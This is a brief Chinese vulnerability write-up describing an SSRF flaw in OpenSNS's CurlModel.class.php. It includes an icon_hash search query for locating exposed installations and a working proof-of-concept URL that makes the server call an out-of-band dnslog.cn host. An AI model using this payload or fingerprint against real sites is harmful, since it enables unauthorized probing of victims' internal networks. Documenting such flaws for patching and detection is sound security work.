 # OpenSNS CurlModel.class.php SSRF漏洞

# OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154436896](/images/202205181544965.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![image-20220518154502605](/images/202205181545686.png)

构造POC

```
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![image-20220518154516760](/images/202205181545840.png)

